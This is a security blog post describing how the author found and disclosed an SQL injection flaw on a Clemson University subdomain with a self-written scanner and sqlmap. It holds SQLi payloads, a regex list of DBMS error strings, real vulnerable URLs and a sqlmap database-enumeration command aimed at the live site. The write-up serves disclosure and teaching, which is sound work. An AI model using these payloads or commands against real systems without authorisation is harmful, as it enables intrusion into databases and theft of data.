

Hacking Clemson University
This article details the steps I took to discover and exploit an SQL injection vulnerability on the Clemson University website using my own tool, SQLiF (SQL injection Finder).
DISCLAIMER
This post and the release of my tool, SQLiF, are intended for educational purposes only. I was previously granted permission from Clemson University to document and share my findings with others. I am not responsible for anything you do with the information presented within this post.
What is an SQL injection?
If you’re reading this blog, you’re likely already familiar with SQL injection (SQLi), but let’s briefly recap what it entails. SQL injection is a type of vulnerability that occurs when an attacker is able to manipulate SQL queries executed by a web application’s database. This typically happens when user inputs are not properly sanitized and are directly incorporated into SQL queries.
A Simple Example
Suppose a website has a login page that verifies user credentials by querying a database. For illustration, let’s assume the application uses an SQL query like this to check if a given username and password combination exists:
SELECT * FROM users WHERE username = 'user_input' AND password = 'pass_input';
In this query, ‘user_name’ and ‘pass_input’ represent the values entered by the user on the login page. Ideally, these inputs are safely handled and incorporated into the query. However, if the application doesn’t properly handle/sanitize these inputs, then an attacker can perform an SQL injection.
For example, if an attacker enters the following value for both the username and password:
' OR '1'='1
The query executed by the web application transforms into:
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
The condition ‘1’=‘1’ is always true. Therefore, the query will return all rows from the ‘users’ table, granting the attacker unauthorised access.
There exist various types of SQL injections, each vary in terms of efficiency and methods of exploitation. The type discussed above is known as a Boolean-Based Blind SQL injection as it tests true or false statements to gather information. Other types, such as a Error-Based SQL injection cause the database management system (DBMS) to generate errors that leak information. Unfortunately, explaining all types in detail would divert from the main focus of this article. For those interested in learning more about SQL injection.
SQLiF (SQL injection Finder)
SQLiF is a Python-based tool I wrote to automate the detection of SQL injection vulnerabilities in web applications. It not only scans specific target websites but also has the capability of finding vulnerabilities in different sites across the web.
How SQLiF Works
Before moving onto the main topic of discussion, I am going to provide a brief overview of how SQLiF works. If you’re not interested in understanding the internals of SQLiF, then click here and you’ll be redirected to the “fun” part of this blog.
Error-Based SQL Injection
Previously we spoke about Boolean-Based Blind SQL injection, and briefly touched upon Error-Based SQL injection. For the purpose of understanding how SQLiF works, we will be required to understand the methodology of this injection type in more depth.
Unlike Boolean-Based Blind SQL injections, an Error-Based SQL injection leverages the errors produced by the web application’s database management system. These errors can be invoked as to provide the attacker with information about the database structure, data, or other sensitive details.
Example of An Error-Based SQL Injection
Similar to before, suppose a website has a search function that retrieves information from a database based on user input. We can assume the website utilises the following SQL query in order to provide this functionality:
SELECT * FROM products WHERE product_id = 'user_input';
And suppose the attacker inputs a payload designed to cause a syntax error, namely:
1234' UNION SELECT NULL, NULL, @@version --
The resulting SQL query executed by the web application is therefore:
SELECT * FROM products WHERE product_id = '1234' UNION SELECT NULL, NULL, @@version --';
Without delving into the SQL language too much, the now malicious SQL query above will likely invoke an error that includes information about the database; which in this case is the database version.
Additionally, an attacker might obtain information about a database by checking whether errors occur for specific inputs. For instance:
SQL Error: [Microsoft][ODBC SQL Server Driver][SQL Server]Invalid column name 'password'.
To an attacker, this message indicates that the column named ‘password’ does not exist. Conversely, if no error had occurred, it would suggest that a column named ‘password’ does exist. This information could then be used by the attacker in future queries to potentially access sensitive data, such as user passwords.
SQLiF’s Detection Mechanism
Now we have a grasp on how Error-Based SQL injection works, we’re ready to learn how SQLiF automates the process of finding SQL injections; a task that many will agree is mundane.
NOTE: As of the writing of this post (19/08/2024), SQLiF only features the detection of Error-Based SQL injections. Although this method of detection won’t change, it is important to know that future updates may introduce detection vectors for other injection types (i.e. Time-Based SQL injection) hence the title and wording of this sub-section may sound rather strange.
When a target web application is identified, SQLiF examines the page content for inputs that interact with the database. These inputs can be parameters in the URL or data submitted in the post body. SQLiF then sends requests to the database with SQL injection payloads (such as ‘ and “) appended to each parameter.
Once the database responds, SQLiF analyses the web application’s response. The objective is to determine if Error-Based SQL Injection is possible by checking for errors triggered by the injected payloads. If errors are detected, it suggests that the database management system might be vulnerable. Below is the code used by SQLiF to carry out this process.
import re
sql_errors = {
"MySQL": (
r"SQL syntax.*MySQL",
r"Warning.*mysql_.*",
r"MySQL Query fail.*"
r"SQL syntax.*MariaDB server"
),
"PostgreSQL": (
r"PostgreSQL.*ERROR",
r"Warning.*\Wpg_.*",
r"Warning.*PostgreSQL"
),
"Microsoft SQL Server": (
r"OLE DB.* SQL Server",
r"(\W|\A)SQL Server.*Driver",
r"Warning.*odbc_.*",
r"Warning.*mssql_",
r"Msg \d+, Level \d+, State \d+",
r"Unclosed quotation mark after the character string",
r"Microsoft OLE DB Provider for ODBC Drivers"
),
"Microsoft Access": (
r"Microsoft Access Driver",
r"Access Database Engine",
r"Microsoft JET Database Engine",
r".*Syntax error.*query expression"
),
"Oracle": (
r"\bORA-[0-9][0-9][0-9][0-9]",
r"Oracle error",
r"Warning.*oci_.*",
"Microsoft OLE DB Provider for Oracle"
),
"IBM DB2": (
r"CLI Driver.*DB2",
r"DB2 SQL error"
),
"SQLite": (
r"SQLite/JDBCDriver",
r"System.Data.SQLite.SQLiteException"
),
"Informix": (
r"Warning.*ibase_.*",
r"com.informix.jdbc"
),
"Sybase": (
r"Warning.*sybase.*",
r"Sybase message"
)
}
def detect_dbms_error(response):
"""
Detects if a response contains any known DBMS error message(s).
Parameters:
response (str): The response text to analyse for DBMS error message(s).
Returns:
bool: True if an DBMS error message was found, false otherwise.
"""
for db, errors in sql_errors.items():
for error in errors:
if re.compile(error).search(response):
return True
return False
If an error is detected, SQLiF will simply log the important details to an output file. The user can then use this information in a tool such as sqlmap to exploit the vulnerability.
This blog has only partly explained the internal operations of SQLiF for simplicity. If you’re interested in learning more about SQLiF, or wish to use the tool yourself, then press here to visit the GitHub repo.
Vulnerability Discovery & Disclosure
After identifying an SQL injection vulnerability on Clemson University’s website in June 2024 through manual testing, I decided to use SQLiF for a comprehensive scan to uncover any additional vulnerabilities.
The command I input into SQLiF is shown below. This command directs SQLiF to scan up to 3 pages of search results. The scope of the scan is determined by the search operators specified within the query parameter. If you’re unfamiliar with this syntax, please refer to the SQLiF usage section for further information.
...\sqlif.py -q "site:grad360.sites.clemson.edu inurl:\".php?\" filetype:php" -p 3
Executing said command, we receive the following output:
The image above shows that SQLiF successfully identified six potential DBMS errors. Upon opening the output file, we are greeted with the potential injection points SQLiF identified:
https://grad360.sites.clemson.edu/events/past-events.php?profs_id=1'
https://grad360.sites.clemson.edu/events/past-events.php?profs_id=1"
https://grad360.sites.clemson.edu/events/index.php?profs_id=4'
https://grad360.sites.clemson.edu/events/index.php?profs_id=4"
https://grad360.sites.clemson.edu/events/index.php?profs_id=1'
https://grad360.sites.clemson.edu/events/index.php?profs_id=1"
While these results don’t guarantee that an Error-Based SQL injection is possible, they do offer a strong indication. As of writing this (19/08/2024), SQLiF does not currently have the capability to conduct further scans or exploit these injection points. Therefore, I used another tool called sqlmap. Executing sqlmap with this command:
...\sqlmap.py -u "https://grad360.sites.clemson.edu/events/past-events.php?profs_id=1" --dbs
Yielded the following result:

Here we can see that sqlmap successfully managed to exploit the injection point and granted us access to Clemson University’s database. For obvious reasons, I stopped poking around at that point and instead reported my findings to Clemson University via their email.
Timeline
- 19/08/2024: Vulnerability Discovered
- 19/08/2024: Vulnerability Disclosure
- 28/08/2024: Vulnerability Fixed